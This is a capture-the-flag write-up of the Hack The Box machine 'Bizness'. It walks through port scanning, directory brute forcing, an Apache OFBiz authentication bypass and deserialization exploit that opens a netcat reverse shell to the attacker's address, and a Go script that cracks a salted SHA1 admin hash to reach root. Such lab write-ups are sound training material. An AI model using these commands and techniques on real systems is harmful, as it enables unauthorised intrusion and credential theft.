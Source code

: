 ```yaml
---
title:  Bizness Writeup
published: 2024-05-27
description: 'Writeup of "Bizness" from Hack The Box'
image: './icon.png'
tags: [Go, Apache OFBiz, Hash cracking, SHA1, HTB, Java Deserialization, ysoserial]
category: 'CTF writeup'
draft: false
---
```


# Overview
- Machine: **Bizness**
- OS: **Linux**
- Difficulty: **<span style="color:green">Easy</span>**
- Vulnerabilities: **Authentication Bypass** 

---
# User flag
## Reconnaissance

#### Port scan
To start, we need to identify all the ports that is running on the target machine. We can use the following Nmap command:</br>
``` bash
nmap -sV -sC 10.10.11.252 -p- -vv -oA nmap/port_scan

PORT     STATE    SERVICE  REASON      VERSION
22/tcp   open     ssh      syn-ack     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open     http     syn-ack     nginx 1.18.0
443/tcp  open     ssl/http syn-ack     nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
```
:::note
As we know about *bizness.htb* now we can put it on our _/etc/hosts_ file.
:::

Opening the website we got the folowing page:
![Bizness main page](./website.png)

#### Directory brute force
I immediately have ran _ffuf_ with the wordlist _common.txt_ from [seclist](https://github.com/danielmiessler/SecLists) to see if are any hidden directories on the page:</br>
```bash
ffuf -u https://bizness.htb/FUZZ -w seclists/Discovery/Web-Content/common.txt -fs 0
------------------------
control         [Status: 200, Size: 34633, Words: 10468]
index.html      [Status: 200, Size: 27200, Words: 92189]
```
And accessing the _'/control'_ page we get the following error message:
![Apache ofBiz error](./control.png)


## Exploitation
Knowing about **Apache OFBiz** I started looking for public exploit and CVEs and eventually I got on this github repo:
::github{repo='jakabakos/Apache-OFBiz-Authentication-Bypass'}
### How it works
The exploit takes advantage of two vulnerabilities of this apache OFZiz version: 

- **CVE-2023-51467**: Is a **Authentication Bypass** that consist in add `?USERNAME=&PASSWORD=&requirePasswordChange=Y.` in the end of the URL and the login fuction of Apache OFBiz will bug and think you are authenticated on the application. If you want more in details about it works check out [Sonic Wall blog post](https://blog.sonicwall.com/en-us/2023/12/sonicwall-discovers-critical-apache-ofbiz-zero-day-authbiz/) about it.

- **CVE-2023-49070**: Is a **Authenticated Java Deserialization** bug on the endpoint `/webtools/control/xmlrpc/`.

The exploit I found actually uses [ysoserial](https://github.com/frohoff/ysoserial) to generate the serialized data.Configuring the java enviroment to work properly can be complex, so I recommend running it mannually in a docker container. Luckily, the exploit worked in my environment and I got a **reverse shell** with the follow command: 
```bash
python3 exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/sh 10.10.14.27 443'
```
![User flag](./user.png)

:::note
After getting the reverse shell I run the classics commands to get stty working on zsh
shell: 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash") 
<CTRL Z>
stty raw -echo;fg
<ENTER>
```
:::

# Privilege escalation

## Reconnaissance

Once I got the shell, I started enumerating the machine with the following commands:
```bash
ss -ltnp # Show the listening ports on the host
sudo -l # Check for sudo privileges (note: password require)
```

Next, I searched for passwords in Apache OFBiz configuration files but without success. Eventually, I found a file named _docker/docker-entrypoint.sh_ which contained the following code that generates a **SHA1 hash**:

```bash
load_admin_user() {
  if [ ! -f "$CONTAINER_ADMIN_LOADED" ]; then
    TMPFILE=$(mktemp)

    # Concatenate a random salt and the admin password.
    SALT=$(tr --delete --complement A-Za-z0-9 </dev/urandom | head --bytes=16)
    SALT_AND_PASSWORD="${SALT}${OFBIZ_ADMIN_PASSWORD}"

    # Take a SHA-1 hash of the combined salt and password and strip off any additional output form the sha1sum utility.
    SHA1SUM_ASCII_HEX=$(printf "$SALT_AND_PASSWORD" | sha1sum | cut --delimiter=' ' --fields=1 --zero-terminated | tr --delete '\000')

    # Convert the ASCII Hex representation of the hash to raw bytes by inserting escape sequences and running
    # through the printf command. Encode the result as URL base 64 and remove padding.
    SHA1SUM_ESCAPED_STRING=$(printf "$SHA1SUM_ASCII_HEX" | sed -e 's/\(..\)\.\?/\\x\1/g')
    SHA1SUM_BASE64=$(printf "$SHA1SUM_ESCAPED_STRING" | basenc --base64url --wrap=0 | tr --delete '=')

    # Concatenate the hash type, salt and hash as the encoded password value.
    ENCODED_PASSWORD_HASH="\$SHA\$${SALT}\$${SHA1SUM_BASE64}"

    # Populate the login data template
    sed "s/@userLoginId@/$OFBIZ_ADMIN_USER/g; s/currentPassword=\".*\"/currentPassword=\"$ENCODED_PASSWORD_HASH\"/g;" framework/resources/templates/AdminUserLoginData.xml >"$TMPFILE"

    # Load data from the populated template.
    /ofbiz/bin/ofbiz --load-data "file=$TMPFILE"

    rm "$TMPFILE"

    touch "$CONTAINER_ADMIN_LOADED"
  fi
}
```

:::note
The code essentially generates a **SALT**, concatenate it with the **PASSWORD**, hashes the result using `sha1sum`, and encode it again using base64 for URLs. Finally, it save the encoded password in the format: `$SHA${SALT}{SHA1}`.
:::

## Exploitation

After learning about the hash, I used this command `grep -r '$SHA` to see if the hash existed on the machine. The command returned some files inside the directory _/runtime/data/derby/ofbiz/seg0/_. Navigating to this directory, I found many _.dat_ files (probally database files), So I used `strings` and `grep` commands to extract the hash. 

![strings command](./strings.png)

## Cracking the hash

The easy option would by to manually decode the base64-encoded password and provide the SALT and HashType to John or Hashcat. However, to improving my Go skills, I coded the following script to crack the hash:

```go
package main

import (
	"bufio"
	"crypto/sha1"
	"encoding/base64"
	"encoding/hex"
	"fmt"
	"os"
	"strings"
)

const salt = "d"

const HASH = "uP0_QaVBpDWFeo8-dRzDqRwXQ2I"

func main() {

	//Read the wordlist file
	worlist_file := "/usr/share/wordlists/rockyou.txt"
	wordlist, _ := os.Open(worlist_file)
	scanner := bufio.NewScanner(wordlist)
    defer wordlist.Close()

	for scanner.Scan() {

        // Use sha1sum on the Salt and password
		hash := sha1.New()
		hash.Write([]byte(salt))
		hash.Write([]byte(scanner.Text()))
		sha1_pass := hash.Sum(nil)

        // Base64 encode it and remove the '=' charactes at the end. 
		found_hash := strings.TrimRight(base64.URLEncoding.EncodeToString(sha1_pass), "=")

        // Check if the Hash we got matches the hash we are searching for.
		if found_hash == HASH {
			fmt.Println("Found: ", scanner.Text())
            break
		}
	}

}

```
running the above code with `go run ./main.go` will eventually give us the right password as showing in the following screenshot:
![Password](./hash_crack.png)

:::warning
This code works but have some compabilities problems. For example, if the password contains the character '%', the `printf` function in bash (docker-entrypoint.sh) will interpret it, but your go script won't, so we will never found the password.
:::

With the cracked password, we can log in as root:</br>
`su root`

![Root](./root.png)

With root access, we can read the contest of `/root/root.txt` file and complete the CTF challenge.
